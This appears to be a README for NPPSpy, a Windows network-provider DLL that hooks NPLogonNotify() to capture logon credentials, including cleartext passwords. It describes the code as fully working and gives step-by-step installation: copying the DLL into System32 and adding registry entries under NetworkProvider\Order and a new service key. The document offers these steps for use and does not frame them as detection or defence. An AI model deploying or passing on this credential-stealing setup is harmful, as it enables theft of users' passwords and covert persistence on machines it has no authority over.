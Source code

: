 Simple (but fully working code) for `NPLogonNotify()`. 
The function obtains logon data, including cleartext password.

#### Installation:
1. Copy NPPSpy.dll to the System32 folder
1. Add `"NPPSpy"` at the end of the `"ProviderOrder"` in `HKLM\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order`
1. Create `HKLM\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider` and set following values:
   - `"Class" = [REG_DWORD]2`
   - `"ProviderPath" = [REG_EXPAND_SZ]"%SystemRoot%\System32\NPPSPY.dll"`
   - `"Name" = [REG_SZ]"NPPSpy"`

No reboot required.

#### Documentation:
The idea is somewhat documented at https://docs.microsoft.com/en-us/windows/win32/api/npapi/nf-npapi-nplogonnotify